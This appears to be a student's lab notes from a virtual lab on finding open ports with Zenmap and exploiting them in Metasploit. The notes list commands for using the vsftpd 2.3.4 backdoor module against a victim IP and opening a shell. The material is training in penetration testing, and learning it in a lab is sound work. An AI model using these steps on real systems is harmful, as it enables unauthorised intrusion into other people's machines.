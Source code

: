 # Finding open ports and exploiting them

Using Kali Linux and Metasploit (using virtual lab)

---
## 2025-08-14
**Steps:**  
- Open Zen map and scan for IP with quick scan.
- Find the IP of the virtual machine to exploit.
- Scan that IP for open ports with intense scan in Zen map.
- Select the vulnerability to exploit.
- Learn about that port and vulnerability from Rapid 7 on Google.

**Commands/Tools practiced:**  
```
`msfconsole`
 `search <open port>`
 example `search vsftpd 2.3.4`
 Interact with a module by name or index. For example **info 1, use 1 or use exploit/unix/ftp/vsftpd_234_backdoor**
 `use 1`
 `show options` ( to check requirements)
 (as per requirement)
 `set RHOSTS <IP of the victim pc>`
 `exploit`
 `ls` (for the list)
 `shell` (for proper format)
 `help`
 
```

![](assests/Screenshot%20(46).png)




